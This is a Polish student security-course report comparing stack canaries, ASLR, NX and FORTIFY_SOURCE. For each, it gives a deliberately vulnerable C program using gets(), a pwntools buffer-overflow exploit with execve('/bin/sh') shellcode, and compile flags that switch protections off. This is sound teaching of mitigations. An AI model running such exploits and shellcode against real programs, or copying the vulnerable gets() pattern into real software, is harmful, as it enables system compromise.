

# Badanie rozwiązań chroniących natywne aplikacje działające w trybie użytkownika
## Spis treści
1. [Wstęp](#wstep)\
  1.1. [Przepełnienie bufora](#bo)
2. [Kanarki stosu](#cana)\
  2.1. [Zakres działania](#cana1)\
  2.2. [Przykładowa aplikacja](#cana2)\
  2.3. [Exploit](#cana3)\
  2.4. [Porównanie metody dla kompilatorów gcc oraz clang](#cana4)\
  2.5. [Użyteczność metody oraz wady jej stosowania](#cana5)
3. [ASLR](#aslr)\
  3.1. [Zakres działania](#aslr1)\
  3.2. [Przykładowa aplikacja](#aslr2)\
  3.3. [Exploit](#aslr3)\
  3.4. [Porównanie działania dla systemów z rodziny Windows oraz Linux](#aslr4)\
  3.5. [Użyteczność metody oraz wady jej stosowania](#aslr5)
4. [Execution Disable / NX / W + X](#nx)\
  4.1. [Zakres działania](#nx1)\
  4.2. [Przykładowa aplikacja](#nx2)\
  4.3. [Exploit](#nx3)\
  4.4. [Użyteczność metody oraz wady jej stosowania](#nx4)
5. [Fortify](#fort)\
  5.1. [Zakres działania](#fort1)\
  5.2. [Przykładowa aplikacja](#fort2)\
  5.3. [Exploit](#fort3)\
  5.4. [Porównanie metody dla kompilatorów gcc oraz clang](#fort4)\
  5.5. [Użyteczność metody oraz wady jej stosowania](#fort5)
6. [Wnioski](#wnioski)

<a name="wstep"></a>
## Wstęp
Poniższa praca stanowi projekt z przedmiotu Bezpieczeństwo systemów i oprogramowania (BSO) na Wydziale Elektroniki i Technik Informacyjnych Politechniki Warszawskiej.

Celem pracy jest zbadanie wybranych rozwiązań chroniących natywne aplikacje działające w trybie użytkownika. W celu przeprowadzenia wszelkich praktycznych części każdego z zagadnień używany był przeze mnie system Ubuntu 20.04.2.0 w wersji 64-bitowej. Innymi użytymi narzędziami był Python 3.8.5, kompilator gcc w wersji 9.3.0, oraz debugger GNU gdb w wersji 9.2.

<a name="bo"></a>
### Przepełnienie bufora
Wszystkie rozwiązania badane przeze mnie w poniższej pracy mają na celu ochronę użytkownika przed atakami typu _buffer overflow_. Z tego też względu na początku postanowiłem lepiej przybliżyć koncepcje tego typu ataków.  

W tej pracy skupiam się na przepełnieniu bufora na stosie. Jest ono możliwe, ze względu na zastosowanie niebezpiecznych funkcji w różnych językach programowania. Tymi językami są najczęściej _C_/_C++_, ponieważ nie posiadają one wbudowanych zabezpieczeń przed nadpisaniem, bądź dostępem do danych w pamięci. Rozważania prowadzone dalej prowadzone są dla użycia języka _C_. Wyzej wspomniane funkcje pozwalają użytkownikowi na wpisanie danych do pamięci, poza wyznaczony obszar. Jest to możliwe ponieważ nie dokonują one poprawnej weryfikacji wprowadzonych danych. W takiej sytuacji użytkownik może wprowadzić dane o większej długości, niż przeznaczony na to bufor. Nadmiarowa długość wejścia nadpisze pamięć poza buforem.  

Niebezpieczeństwo opisanej powyżej sytuacji wynika z tego, że bufor w pamięci znajduje się na stosie wywołania danej fukncji (rozpatruję przypadek bufora na stosie). Stos jest strukturą przechowującą nie tylko bufor, ale i inne dane związane z wywołaniem funkcji. To takich danych należą m.in. zmienne lokalne, oraz wskaźniki. Kluczowym w prowadzonych rozważaniach wskaźnikiem będzie _return pointer_ (wskaźnik na adres powrotu). Nadpisanie zawartości pamięci pod adresem takiego wskaźnika (który znajduje się pod buforem), w teorii może pozwolić atakującemu na wskazanie procesorowi dowolnego miejsca w pamięci, jako dalszej części programu i zmusić go do wykonania znajdujących się w tym obszarze instrukcji. Jednym ze sposobów na to, aby napastnik mógł wykonać napisane przez siebie samego instrukcje, jest np. umieszczenie ich w przepełnianym buforze i wskazanie ich lokalizacji jako adres powrotu funkcji. Celem atakującego może być również przykładowo nadpisanie zmiennych lokalnych funkcji na stosie (np. aby zaburzyć integralność danych dla danego wykonania programu).  

W praktyce, w nowoczesnych systemach komputerowych, nie jest to takie trywialne. Dzisiejsze kompilatory czy same systemy operacyjne dostarczają często wiele warstw rozwiązań, mających na celu zabezpieczyć aplikacje przed możliwością wykonania takiego ataku. W poniższej pracy omówię trzy, często stosowane, przykłady takich rozwiązań.  

Dla omówienia poszczególnych rozwiązań skupię się na ataku przez nadpisanie adresu powrotu ramki stosu.

<a name="cana"></a>
## Kanarki stosu
<a name="cana1"></a>
### Zakres działania

Kanarek stosu jest specjalną wartością umieszczoną na stosie w odpowiednim miejscu, w taki sposób aby chronić dane stosu przed nadpisaniem od strony bufora. Można go skategoryzować jako zabezpieczenie służące do wykrycia próby przepełnienia buforu na stosie. Jest on dodawany automatycznie przez nowoczesne kompilatory, podczas procesu kompilacji kodu programu (pod warunkiem że taka opcja nie zostanie wyłączona). Dąży się do tego, aby miał on unikalną wartość, która będzie sprawdzana, gdy program powraca do funkcji wywołującej. W przypadku kiedy dojdzie do przepełnienia bufra na stosie i nadpisania kluczowych dla atakującego danych na stosie (np. wspomniany wcześniej adres powrotu), wtedy nieuniknionym powinno być nadpisanie przez atakującego wartości kanarka. Będzie to skutkowało blędną weryfikacją przed samym powrotem funkcji, co spowoduje przerwanie działania programu. Zapobiegnie to przejściu procesora do wykonywania instrukcji wskazanych przez atakującego.  


<p align="center">
  
</p>
<p align = "center">
  Rys. 1 - Schematyczne przedstawienie możliwej struktury ramki stosu z uwzględnieniem kanarka stosu.
</p>  
  

<p align="center">
  
</p>
<p align = "center">
  Rys. 2 - Część wygenerowanego przez kompilator gcc kodu Assemblera dla włączonych, i dla wyłączonych kanarków stosu.
</p>

#### Typy kanarków stosu

Można wyróżnić różne typy kanarków. Są nimi między innymi:
- _**Null canary**_ - Najprostszy typ kanarka. Dla systemu 32-bitowego składa się z czterech bajtów _NULL_ pod rząd. Jego wartość jest przewidywalna dla atakującego, więc tego typu kanarek ma na celu ochronę przed przepełnieniami bufora za pomocą funkcji operujących na stringach.
- _**Terminator canary**_ - Zbliżony w koncepcji działania do _Null canary_. Zawiera on bajty: _0x00, 0x0d, 0x0a, 0xff_. Powinny one przerwać ciąg znaków dla większości operacji operujących na stringach.
- _**Random canary**_ - Losowy kanarek stosu. Jego trzy pseudolosowe bajty mogą być poprzedzone _NULL_-bajtem (0x00).
- _**Random XOR canary**_ - _Random canary_, którego wartość może być dodatkowo _XOR_-owana np. z wartościami wskaźników. Dodaje to dodatkową warstwę bezpieczeństwa przy próbie podmienienia wartości kanarka i nadpisania jakiegoś wskaźnika przez napastnika.

<a name="cana2"></a>
### Przykładowa aplikacja
Poniższa aplikacja została napisana w języku _C_. Jest to prosta aplikacja pobierająca dane tekstowe od użytkownika (jego imię). Ze względu na to, że przedmiotem badań tego punktu są kanarki stosu - postanowiłem w celach demonstracyjnych umieścić w aplikacji kawałek kodu, który wprost podaje użytkownikowi adres stosu funkcji _main_.

```C
#include <stdio.h>
#include <stdlib.h>

void get_users_name()
{
    char name[64] = {0};
    puts("Podaj imie:");
    gets(name);
    printf("Czesc %s!\n", name);
}

int main()
{
    int x;
    printf("Adres na stosie main: %p\n", &x);
    get_users_name();
    return 0;
}
```

Aplikacja ta, w celu przyjęcia danych od użytkownika używa niebezpiecznej funkcji _gets()_, która została już usunięta ze standardu języka _C_. 
Plik _main.c_ zawierający powyższy kod został dołączony do repozytorium i znajduje się w katalogu _Kanarki_.

<a name="cana3"></a>
### Exploit

Poniższy exploit pobiera od aplikacji adres z ramki stosu _main_, następnie na podstawie pobranego adresu, oraz _shellcode_'u tworzy ładunek. Ładunek został skonstruowany w taki sposób, aby wykonywalny _shellcode_ umieścić w ramce stosu _main_, tak aby wskazany adres powrotu doprowadził do wykonania _shellcode_'u (dzięki wykorzystaniu _NOP Slide_).

```Python
from pwn import *

#uruchamia proces main i zczytuje adres stosu:
p = process("./main")
p.readuntil("Adres na stosie main: ")
stack_ptr = int(p.readuntil("\n").strip(), 16)
p.readuntil("Podaj imie:\n")

#przygotowanie ciagu bajtow do przepelnienia bufora
padding = b'\x90'*72
RIP = p64(stack_ptr)
NOP = b'\x90'*128
shellcode =b'\xeb\x1e\x5f\x48\x31\xc0\x88\x47\x07\xb0\x3b\x48\x31\xf6\x48\x31\xd2\x48\x31\xc9\x0f\x05\x48\x31\xc0\x48\x31\xff\xb0\x3c\x0f\x05\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x70\xd8\xff\xff\xff\x7f'
payload =  padding + RIP + NOP + shellcode

#debugger
gdb.attach(p)

#wyslanie ladunku
p.sendline(payload)
print(p.readall())
```

Plik _exploit.py_ zawierający powyższy kod został dołączony do repozytorium i znajduje się w katalogu _Kanarki_.

#### Działanie exploit'a dla wersji programu bez włączonego zabezpieczenia, oraz z włączonym zabezpieczeniem


Poniżej okno debuggera dla uruchomienia exploit'a komendą ```python3 exploit.py``` z wyłączonymi kanarkami stosu (komenda użyta do kompilacji pliku main.c: ```gcc main.c -std=c99 -fno-stack-protector -z execstack -no-pie -w -o main -Wl,-z,norelro```):

<p align="center">
  
</p>
<p align = "center">
  Rys. 3 - Jak widać wykonanie shellcode'u powiodło się.
</p>  


Okno debuggera dla uruchomienia exploit'a komendą ```python3 exploit.py``` z włączonymi kanarkami stosu (komenda użyta do kompilacji pliku main.c: ```gcc main.c -std=c99 -z execstack -no-pie -w -o main -Wl,-z,norelro```):

<p align="center">
  
</p>
<p align = "center">
  Rys. 4 - W tej sytuacji wykonanie programu zostało zatrzymane zgodnie z oczekiwaniami.
</p>  

<a name="cana4"></a>
### Porównanie metody dla kompilatorów gcc oraz clang
Przedstawiana w tym punkcie metoda działa w podobny sposób w przypadku najnowszych wersji obu tych kompilatorów.

<a name="cana5"></a>
### Użyteczność metody oraz wady jej stosowania
Kanarki stosu są jedną z podstawowych metod zabezpieczenia przed atakami typu _buffer overflow_. Mimo wprowadzanych ulepszeń jak np. w kwestii randomizacji wartości kanarka, mogą się one okazać możliwe do przewidzenia, więc nigdy nie stanowią pełnego zabezpieczenia. Wymuszają one dla procesora dodatkowe instrukcje, wydłużając czas wykonania programu.

<a name="aslr"></a>
## ASLR

<a name="aslr1"></a>
### Zakres działania
_ASLR_ czyli _Address Space Layout Randomization_ jest techniką zapobiegającą możliwej eksploitacji programu poprzez naruszenia jego pamięci. Mechanim taki, w przeciwieństwie do wcześniej omaiwanych kanarków stosu, nie jest dodawany w jakiś sposób przez kompilator, a za jego działanie odpowiada sam system operacyjny. Jego działanie opiera się na losowaniu zestawu kluczowych adresów (takich jak miejsca stosu, sterty, czy bilbliotek). To w jaki dokładnie sposób się to odbywa, zależy od implementacji mechanizmu w danym systemie operacyjnym. W najlepszym przypadku istotne adresy powinny być losowe przy każdym wywołaniu ramki stosu. Powinno się także zadbać o zmianę przesunięcia kluczowych dla wykonania programu struktur o inną, losową wartość, przy każdym uruchomieniu programu.

<a name="aslr2"></a>
### Przykładowa aplikacja
Poniższa aplikacja, napisana w języku _C_, została zbudowana na bazie aplikacji z porzedniego punktu. W poprzednim punkcie udało się wywołać instrukcje _shellcode_’u mino włączonego _ASLR_, ponieważ program podawał za każdym razem nowy, wylosowany adres stosu _main_. W tym punkcie aplikacja nie podaje takiego adresu. Zakładam, że atakujący zdobył ten adres w inny sposób, a przez brak włączonego _ASLR_ adres taki może zostać umieszczony na stałe w exploicie (który jest pokazany w kolejnym punkcie).

```C
#include <stdio.h>
#include <stdlib.h>

void get_users_name()
{
    char name[64] = {0};
    puts("Podaj imie:");
    gets(name);
    printf("Czesc %s!\n", name);
}

int main()
{
    get_users_name();
    return 0;
}
```

Plik _main.c_ zawierający powyższy kod został dołączony do repozytorium i znajduje się w katalogu _ASLR_.

<a name="aslr3"></a>
### Exploit

Poniższy exploit działa na zasadzie podobnej do poprzedniego, jednak tym razem nie zczytuje od adresu ramki stosu main od programu przy każdym wykonaniu, tylko ma na stałe ustalony adres tej ramki.

```Python
from pwn import *

p = process("./main")
p.readuntil("Podaj imie:\n")

padding = b'\x90'*72
RIP = p64(0x7fffffffdefc) #ustalony na stale adres stosu main
NOP = b'\x90'*128
shellcode =b'\xeb\x1e\x5f\x48\x31\xc0\x88\x47\x07\xb0\x3b\x48\x31\xf6\x48\x31\xd2\x48\x31\xc9\x0f\x05\x48\x31\xc0\x48\x31\xff\xb0\x3c\x0f\x05\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x70\xd8\xff\xff\xff\x7f'
payload =  padding + RIP + NOP + shellcode

gdb.attach(p)

p.sendline(payload)
print(p.readall())
```

Plik _exploit.py_ zawierający powyższy kod został dołączony do repozytorium i znajduje się w katalogu _ASLR_.

#### Działanie exploit'a dla wersji programu bez włączonego zabezpieczenia oraz z włączonym zabezpieczeniem

Najpierw działanie exploit'a dla systemu Linux, po wykonaniu w terminalu polecenia dezaktywującego mechanizm ASLR. Kompilacja samego programu odbyła się przy użyciu komendy: ```gcc main.c -std=c99 -fno-stack-protector -z execstack -no-pie -w -o main -Wl,-z,norelro```:

<p align="center">
  
</p>
<p align = "center">
  Rys. 5 - Działanie exploit'a z wyłączonym ASLR - wykonanie shellcode’u powiodło się.
</p>  

Następnie sprawdziłem czy exploit zadziała dla programu skompilowanego w porzedniej sytuacji, jednak z włączonym ASLR.

<p align="center">
  
</p>
<p align = "center">
  Rys. 6 - Działanie exploit'a z włączonym ASLR - wykonanie shellcode’u nie powiodło się.
</p>  

<a name="aslr4"></a>
### Porównanie działania ASLR dla systemów z rodziny Windows oraz Linux

Platformy _Windows_, oraz _Linux_ zapewniają _ASLR_ w odmienny sposób. Główna róznica jest taka, że _ASLR_ dla systemu _Windows 10_ jest dokonywany podczas ładowania programu i nie wpływa to na wydajność programu podczas jego działania. W systemach z rodziny _Linux_ operacje związane z _ASLR_ są dokonywane w trakcie działania programu, co ma wpływ na wydajność programu. W zamian za to w systemie _Linux_ wykorzystanie pamięci przez program może być lepiej zorganizowane.

<a name="aslr5"></a>
### Użyteczność metody oraz wady jej stosowania

Opisana powyżej metoda może znacznie utrudnić atakującemu ataki typu _ROP_ (_return-oriented programming_). Mimo tego że technika jest często możliwa do obejścia, to warto ją strosować, w szczególności w połączeniu z innymi technikami (jak np. opisany w kolejnym punkcie niewykonywalny stos). Niestety, w zależności od implementacji, ma ona wpływ na wydajność, bądź wykorzystanie pamięci programu.

<a name="nx"></a>
## Execution Disable / NX / W + X

<a name="nx1"></a>
### Zakres działania

Omawiana w tym punkcie metoda ma na celu spowodowanie, aby wskazane segmenty pamięci nie mogły być zapisywane i wykonywane w tym samym momencie. Jest wspierana przez większość współczesnych procesorów. System może oznaczyć pewne obszary pamięci jako wykonywalne, lub niewykonywalne. Dokładny sposób działania może się różnić, w zależności od wykorzystywanego systemu czy sprzętu, jednak koncepcyjnie wszystkie rozwiązania dążą do tego samego - wspomnianego wyżej zablokowania możliwości pisania, oraz wykonywania zawartości określonych obszarów pamięci jednocześnie. Dla rozpa- trywanego w tej pracy _buffer overflow_ - metoda ta nie blokuje przepełnienia bufora, jednak zapobiega wykonaniu wrzuconego na stos kodu _shellcode_.

<a name="nx2"></a>
### Przykładowa aplikacja

Na poziome aplikacji nie ma różnicy w kodzie aplikacji pomiędzy tym punktem a poprzednim. Dla przypomnienia kod programu wygląda następująco:
```C
#include <stdio.h>
#include <stdlib.h>

void get_users_name()
{
    char name[64] = {0};
    puts("Podaj imie:");
    gets(name);
    printf("Czesc %s!\n", name);
}

int main()
{
    get_users_name();
    return 0;
}
```

Plik _main.c_ zawierający powyższy kod został dołączony do repozytorium i znajduje się w katalogu _Execution Disable_.

<a name="nx3"></a>
### Exploit

Ogólna zasada działania _exploit_'a w tej wersji nie zmieniła się szczególnie, jednak tym razem zmienia się konstrukcja ładunku. Zamiast całego _shellcode_’u, umieszczona jest instrukcja _0xCC_, która ma za zadanie zatrzymanie debuggera.

```Python 
from pwn import *

p = process("./main")
p.readuntil("Podaj imie:\n")

padding = b'\x90'*72
RIP = p64(0x7fffffffdefc)
NOP = b'\x90'*128
trap = b'\xCC'
payload =  padding + RIP + NOP + trap

gdb.attach(p)

p.sendline(payload)
print(p.readall())
```

Plik _exploit.py_ zawierający powyższy kod został dołączony do repozytorium i znajduje się w katalogu _Execution Disable_.

#### Działanie exploit'a dla wersji programu bez włączonego zabezpieczenia oraz z włączonym zabezpieczeniem

W celu pokazania działania zabezpieczenia, chce zobrazować sytuację w której stos zostaje przepełniony, jednak umieszczone na stosie instrukcje nie wykonują się, a działanie programu zostaje przerwane.  

Najpierw w wersji dla wyłączonego zabezpieczenia. Kompilacja kodu programu komendą: ```gcc main.c -std=c99 -fno-stack-protector -z execstack -no-pie -w -o main -Wl,-z,norelro```.

<p align="center">
  
</p>
<p align = "center">
  Rys. 7 - SIGTRAP - ustawiona na stosie instrukcja została wykonana.
</p>  

Teraz dla włączonego zabezpieczenia. Kompilacja kodu programu komendą: ```gcc main.c -std=c99 -fno-stack-protector -no-pie -w -o main -Wl,-z,norelro```.

<p align="center">
  
</p>
<p align = "center">
  Rys. 8 - SIGSEGV - ustawiona na stosie instrukcja nie została wykonana.
</p> 

Jak widać pamięć stosu _main_ w obu przypadkach wygląda tak samo (więc w obu przypadkach doszło do przepełnienia bufora). Jednak tylko w przypadku bez zabezpieczenia, instrukcja umieszczona na stosie została wykonana i kompilator otrzymał _SIGTRAP_.

<a name="nx4"></a>
### Użyteczność metody oraz wady jej stosowania

Powyższa metoda jest skuteczna jeśli chodzi o zapobieganie wykonywania instrukcji na stosie funkcji. Możliwym dla atakującego obejściem jest np. zastosowanie ataku typu _return-to-libc_. Z tego właśnie względu metoda ta szczególnie dobrze sprawdzi się z jednoczesnym użyciem innych metod np. _ASLR_.

<a name="fort"></a>
## Fortify

<a name="fort1"></a>
### Zakres działania

Omawiane w tym punkcie zabezpieczenie może stanowić kolejną warstwę ochrony przed atakami typu _buffer overflow_. Może wykryć atak tego typu zarówno podczas kompilacji, jak i w trakcie wykonywania programu (w zależności od typu podatności). Działa na zasadzie sprawdzania, czy nie następuje próba podania do bufora ilości bitów, która spowoduje jego przepełnienie. Sprawdzeń dokonuję w miejscach potencjalnie niebezpiecznych (więc w miejscach użycia niebezpiecznych funkcji, m.in. _memcpy, mempcpy, memmove, memset, strcpy, stpcpy, strncpy, strcat, strncat, sprintf, vsprintf, snprintf, vsnprintf, gets_). 

W ogólności miejsce mogą mieć następujące przypadki:
- Następuje sprawdzenie niebezpiecznej funkcji i stwierdzenie (bazując na zaimplementowanych mechanizmach), że nie
ma możliwości przepełnienia bufora w danym miejscu - program wykonuje się normalnie, nie dochodzi do dodatkowego
sprawdzania podczas wykonania.
- Następuje sprawdzenie niebezpiecznej funkcji, ale zabezpieczenie nie jest w stanie stwierdzić w trakcie kompilacji, czy
będzie mogło w tym miejscu dojść do przepełnienia bufora - funkcje sprawdzające zostają dodane do programu.
- Następuje sprawdzenie niebezpiecznej funkcji, oraz stwierdzenie przepełnienia bufora - skutkuje to ostrzeżeniem użytkow-
nika przy kompilacji, oraz użyciem funkcji sprawdzających przy wykonaniu programu.
- Następuje sprawdzenie niebezpiecznych funkcji, i okazuje się że program nie jest w stanie stwierdzić możliwego przepeł-
nienia, oraz brakuje danych dla użycia funkcji sprawdzających - w tym wypadku potencjalne przepełnienie nie zostanie zatrzymane przez omawiane zabezpieczenie.  

Poniżej porównanie kodu _Assemblera_ (dla kompilatora _gcc_) przy użyciu zabezpieczenia _Fortify_, oraz przy jego wyłączeniu. W tym przypadku została zastosowana niebezpieczna funkcja _gets_.  

<p align="center">
  
</p>
<p align = "center">
  Rys. 9 - Po lewej użyta flaga: -D FORTIFY SOURCE=2, a po prawej: -D FORTIFY SOURCE=0.
</p>   

Dla omawianej implementacji, istnieją dwa poziomy zabezpieczenia: ```-D FORTIFY SOURCE=1```, oraz
```-D FORTIFY SOURCE=2```. Dla ```-D FORTIFY SOURCE=2``` do sprawdzenia dodanych jest więcej rzeczy. Jedną z różnic jest dodatkowe sprawdzenie funkcji takich jak _printf_, co może zapobiec eksploitacji podatności bazujących na _format string_.

<p align="center">
  
</p>
<p align = "center">
  Rys. 10 - Po lewej użyta flaga: -D FORTIFY SOURCE=2, a po prawej: -D FORTIFY SOURCE=1.
</p> 

<a name="fort2"></a>
### Przykładowa aplikacja

W celu zaprezentowania zabezpieczenia, użyje kodu aplikacji pokazanej przy omawianiu kanarków stosu. Dla przypomnie- nia aplikacja używa niebezpiecznej funkcji _gets_. Poniżej kod programu:

```C
#include <stdio.h>
#include <stdlib.h>

void get_users_name()
{
    char name[64] = {0};
    puts("Podaj imie:");
    gets(name);
    printf("Czesc %s!\n", name);
}

int main()
{
    int x;
    printf("Adres na stosie main: %p\n", &x);
    get_users_name();
    return 0;
}
```
Plik _main.c_ zawierający powyższy kod został dołączony do repozytorium i znajduje się w katalogu _Fortify_.

<a name="fort3"></a>
### Exploit

Poniższy exploit działa na tej samej zasadzie co [exploit w sekcji _Kanarki stosu_](#exploit).

```Python
from pwn import *

p = process("./main")
p.readuntil("Adres na stosie main: ")
stack_ptr = int(p.readuntil("\n").strip(), 16)
p.readuntil("Podaj imie:\n")

padding = b'\x90'*72
RIP = p64(stack_ptr)
NOP = b'\x90'*128
shellcode =b'\xeb\x1e\x5f\x48\x31\xc0\x88\x47\x07\xb0\x3b\x48\x31\xf6\x48\x31\xd2\x48\x31\xc9\x0f\x05\x48\x31\xc0\x48\x31\xff\xb0\x3c\x0f\x05\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x70\xd8\xff\xff\xff\x7f'
payload =  padding + RIP + NOP + shellcode

gdb.attach(p)

p.sendline(payload)
print(p.readall())
```

Plik _exploit.py_ zawierający powyższy kod został dołączony do repozytorium i znajduje się w katalogu _Fortify_.

#### Działanie exploit'a dla programu bez włączonego zabezpieczenia oraz z włączonym zabezpieczeniem

Poniżej wynik wykonania exploit’a komendą ```python3 exploit.py``` z wyłączonym fortify (komenda użyta do kompilacji pliku main.c: ```gcc -O2 main.c -fno-stack-protector -std=c99 -z execstack -D FORTIFY SOURCE=0 -W -o main -Wl,-z,norelro```):

<p align="center">
  
</p>
<p align = "center">
  Rys. 11 - Udany atak przy wyłączonym fortify.
</p>

Tym razem program skompilowany poleceniem: ```gcc -O2 main.c -fno-stack-protector -std=c99 -z execstack -D FORTIFY SOURCE=2 -W -o main -Wl,-z,norelro```:

<p align="center">
  
</p>
<p align = "center">
  Rys. 12 - Atak wykryty dzięki fortify.
</p>

Zgodnie ze wcześniejszym opisem, w przypadku tego ataku, równie dobrze powinno poradzić sobie zabezpieczenie usta- wione na niższy poziom. Polecenie użyte do kompilacji: ```gcc -O2 main.c -fno-stack-protector -std=c99 -z execstack
-D FORTIFY SOURCE=1 -W -o main -Wl,-z,norelro```

<p align="center">
  
</p>
<p align = "center">
  Rys. 13 - Atak wykryty dzięki fortify (ustawionym na poziom 1).
</p>

<a name="fort4"></a>
### Porównanie metody dla kompilatorów _gcc_ oraz _clang_

Podczas gdy _gcc_ w pełni wspiera omawiane zabezpieczenie, _clang_ nie jest kompatibilny z jego implementacją.

<a name="fort5"></a>
### Użyteczność metody oraz wady jej stosowania

Metoda ta nie wpływa w znaczącym stopniu, ani na wydajność programu, ani na jego rozmiar. Warto ją używać jako jedno z zabezpieczeń. Niestety, zabezpiecza jedynie przed niektórymi atakami opierającymi się na _buffer overflow_. Samodzielnie nie stanowi solidnego zabezpieczenia.

<a name="wnioski"></a>
## Wnioski

W powyższej pracy zostały omówione niektóre z najczęściej stosowanych zabezpieczeń. W rzeczywistości jest ich bardzo wiele i dopiero połączenie wielu metod na raz zapewnia bardzo wysoką ochronę. Wybranie metod powinno być odpowiednio zoptymalizowane, a projektant oprogramowania powinien wziąć pod uwagę poziom uzyskiwanej ochrony, względem pogor- szenia wydajności, czy zwiększenia ilości wymaganej pamięci.

